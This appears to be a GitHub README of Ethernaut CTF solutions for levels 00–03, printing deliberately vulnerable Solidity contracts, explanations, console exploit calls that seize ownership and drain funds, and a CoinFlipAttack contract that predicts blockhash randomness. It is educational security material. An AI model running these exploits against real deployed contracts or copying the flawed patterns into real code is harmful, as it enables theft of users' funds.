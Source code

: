 # Ethernaut

My [Ethernaut](https://ethernaut.openzeppelin.com/) CTF Solutions.

## Table of Contents

<details>
<summary>
<a href="#00-hello-ethernaut">00. Hello Ethernaut</a>
</summary>
<ol>
    <li><a href="./contracts/00-hello-ethernaut/">Contracts</a></li>
    <li><a href="./scripts/00-hello-ethernaut.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#01-fallback">01. Fallback</a>
</summary>
<ol>
    <li><a href="./contracts/01-fallback/">Contracts</a></li>
    <li><a href="./scripts/01-fallback.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#02-fallout">02. Fallout</a>
</summary>
<ol>
    <li><a href="./contracts/02-fallout/">Contracts</a></li>
    <li><a href="./scripts/02-fallout.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#03-coin-flip">03. Coin Flip</a>
</summary>
<ol>
    <li><a href="./contracts/03-coin-flip/">Contracts</a></li>
    <li><a href="./scripts/03-coin-flip.ts">Script</a></li>
</ol>
</details>

## 00. Hello Ethernaut

This is a warm-up task. Call `await contract.info()` in the console and follow the instructions.

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.info();
// 'You will find what you need in info1().'

// 2
await contract.info1();
// 'Try info2(), but with "hello" as a parameter.'

// 3
await contract.info2('hello');
// 'The property infoNum holds the number of the next info method to call.'

// 4
await contract.infoNum();
// {
//  ...
//  words: [42],
// };

// 5
await contract.info42();
// 'theMethodName is the name of the next method.'

// 6
await contract.theMethodName();
// 'The method name is method7123949.'

// 7
await contract.method7123949();
// 'If you know the password, submit it to authenticate().'

// 8
await contract.password();
// 'ethernaut0'

// 9
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Browser Console Solution For Cheaters</summary>

```javascript
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's cheat the next challenge! :running:

</details>

<a href='./contracts/00-hello-ethernaut/'>Contracts</a> | <a href='./scripts/00-hello-ethernaut.ts'>Script</a>

## 01. Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to pass the challenge, we need to become the owner of the contract and withdraw the entire balance from the contract.

In the instance contract, the owner is set in 3 places:

1. Constructor. When deploying a contract.
2. Method `contribute`. To do this, we need to transfer at least 1 wei (but less than 0.001 Ether).
3. Method `receive`. This method is called every time we send Ether to a contract address without calling any contract function.

Understanding how `receive` works is the key to hacking this smart contract.

> You can read about how the `receive` function works in the [official docs](https://docs.soliditylang.org/en/v0.8.24/contracts.html#receive-ether-function), [stackexchange](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity).

The `receive` function checks the user has sent some non-zero amount of ether (at least 1 wei) and has already contributed some amount of ether (less than 0.001 ether) by calling the `contribute` method.

The hacking algorithm is as follows:

1. We call `contribute` and send 1 wei along with the function call.
2. We send to the contract address 1 wei. We are now the owner of the contract.
3. Call the `withdraw` function.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.contribute({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.sendTransaction({
  to: contract.address,
  value: _ethers.utils.parseUnits('1', 'wei'),
});

// 3
await contract.withdraw();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<a href='./contracts/01-fallback/'>Contracts</a> | <a href='./scripts/01-fallback.ts'>Script</a>

## 02. Fallout

### Challenge

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Since Solidity v0.4.23, constructors are now specified using the `constructor` keyword.
Before this version, the constructor was a function whose name was the same as the name of the contract.
Since Solidity [v0.5.0](https://docs.soliditylang.org/en/v0.8.24/050-breaking-changes.html#constructors) constructors must be defined using the `constructor` keyword.

The only place in the contract where the owner is set is in the `Fal1out` function. According to the creator of the contract, this should have been a constructor that would work once and could not be called again. In this case, hacking would not have been possible (for solidity version less than v0.5.0). However, the author made a typo in the name of the constructor and instead of `Fallout` it turned out to be `Fal1out`. And now we can easily withdraw money from the contract.

1. Call the `Fal1out` function. We become the owner of the contract.
2. Call the `collectAllocations` function. We get all the money from the contract.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.Fal1out({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.collectAllocations();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Real World Example Described By OpenZeppelin</summary>

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
}
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

</details>

<a href='./contracts/02-fallout/'>Contracts</a> | <a href='./scripts/02-fallout.ts'>Script</a>

## 03. Coin Flip

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

This is a challenge to understand how randomness works on Ethereum. Since this is a deterministic environment, it is not possible to create unpredictable randomness. If you need to use random in your protocol, then it is better to use oracles ([Chainlink VRF](https://docs.chain.link/vrf)).

In order to complete the challenge, we need to guess which side will fall out 10 times in a row.
Since this is based on the hash of the previous block, it is possible to calculate in advance which side will land.
To do this, we will write an attack contract and run it in [Remix Online](https://remix.ethereum.org/) and make 10 calls to the attack functions. Thus, we get the same `blockValue` as the instance, since we launch them in one transaction.

</details>

<details>
  <summary>Attack Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip _coinFlip;

  constructor(CoinFlip coinFlip) {
    _coinFlip = coinFlip;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _coinFlip.flip(side);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

</details>

<a href='./contracts/03-coin-flip/'>Contracts</a> | <a href='./scripts/03-coin-flip.ts'>Script</a>
